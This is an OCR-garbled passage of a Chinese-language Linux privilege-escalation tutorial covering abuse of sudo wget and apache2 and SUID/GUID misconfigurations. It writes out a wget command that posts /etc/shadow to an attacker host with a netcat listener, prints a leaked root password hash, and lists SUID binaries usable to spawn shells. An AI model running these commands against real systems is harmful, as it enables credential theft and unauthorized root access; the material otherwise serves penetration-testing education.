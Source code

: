 **注意：如果您要从服务器上转储文件，例如** root ****的**** ssh ****密钥，****shadow **文件等。**

sudo wget —post-file = / etc / shadow 192.168.56.1:8080

攻击者的设置侦听器：nc –lvp 8080

### **使用** apache **命令**

但是，我们无法获得 Shell 和 Cant 编辑系统文件。

但是使用它我们可以查看系统文件。

sudo apache2 -f / etc / shadow

输出是这样的：

Syntax error on line 1 of /etc/shadow:Invalid command 'root:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration

可悲的是没有 shell。但是我们可以现在提取 root 哈希，然后在破解了哈希。

**0x007 linux 提权 - Suid 和 Guid 配置错误**
-------------------------------------

**描述**

SUID 代表设置的用户 ID，是一种 Linux 功能，允许用户在指定用户的许可下执行文件。例如，Linux ping 命令通常需要 root 权限才能打开网络套接字。通过将 ping 程序标记为 SUID（所有者为 root），只要低特权用户执行 ping 程序，便会以 root 特权执行 ping。

SUID（设置用户 ID）是赋予文件的一种权限，它会出现在文件拥有者权限的执行位上，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。

当运行具有 suid 权限的二进制文件时，它将以其他用户身份运行，因此具有其他用户特权。它可以是 root 用户，也可以只是另一个用户。如果在程序中设置了 suid，该位可以生成 shell 或以其他方式滥用，我们可以使用它来提升我们的特权。

**以下是一些可用于产生** SHELL **的程序：**

nmap

vim

less more

nano

cpmv

find

**查找** suid ****和**** guid **文件**

Find SUID find / -perm -u=s -type f 2>/dev/null Find GUID find / -perm -g=s -type f 2>/dev/null

**其他命令**
